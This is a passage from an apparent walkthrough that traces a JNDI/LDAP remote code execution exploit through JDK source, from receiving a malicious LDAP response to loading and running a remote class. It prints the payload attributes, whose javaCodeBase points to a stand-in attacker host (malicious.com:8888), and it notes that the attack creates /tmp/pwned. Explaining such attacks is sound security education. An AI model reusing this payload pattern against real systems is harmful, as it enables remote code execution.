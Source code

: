 ## Part 4: Receiving the malicious LDAP response

Back in our vulnerable app code, we receive the LDAP response:

https://sourcegraph.com/jdk@65983d0/-/blob/java.naming/com/sun/jndi/ldap/LdapCtx.java?L2013-2026&subtree=true

The result gets returned up through a few stack frames:

https://sourcegraph.com/jdk@65983d0/-/blob/java.naming/com/sun/jndi/ldap/LdapCtx.java?L1056

At this point, we haven't yet loaded the malicious class file from the attacker's server. This happens further down the `c_lookup` method where the parsed LDAP response parameters have been decoded into a set of attributes that parameterize a call to `DirectoryManager.getObjectInstance`:

https://sourcegraph.com/jdk@65983d0/-/blob/java.naming/com/sun/jndi/ldap/LdapCtx.java?L1114-1115

The `attrs` variable at this point contains a hash table with the following values:

```
objectClass: javaNamingReference
javaCodeBase: http://malicious.com:8888/
javaFactory: ExploitDLFzSVQjFv
javaClassName: foo
```

The `javaCodeBase`, `javaFactory`, and `javaClassName` values were all parsed from our malicious LDAP response. The `javaCodeBase` value tells the DirectoryManager to fetch the factory class `ExploitDLFzSVQjFv` from "http://malicious.com:8888", where our attacker service is ready to serve the generated malicious class.

https://sourcegraph.com/jdk@65983d0/-/blob/java.naming/javax/naming/spi/NamingManager.java?L165-176

Our attacker server receives the HTTP request for the class file and responds with the cached malicious class (`ExploitDLFzSVQjFv`) generated earlier from `CommandTemplate`:

https://sourcegraph.com/github.com/sickcodes/JNDIExploit/-/blob/src/main/java/com/feihong/ldap/HTTPServer.java?L92-108&subtree=true

Back in our vulnerable app, we receive the response and create a new instance of the malicious factory class `ExploitDLFzSVQjFv`:

https://sourcegraph.com/jdk@65983d0/-/blob/java.naming/javax/naming/spi/NamingManager.java?L179-180

It is here that the malicious code we received from the attacker server is run. In our case, that means by this point in the execution, the file `/tmp/pwned` has been created and the RCE has run successfully.

## Reflections: bridging gaps

TODO: more reflective thoughts here

* How many such exploits exist?
* How hard are they to find?
* How long are they known to some before being made known to all?
* Software supply chain
* OSS maintainers
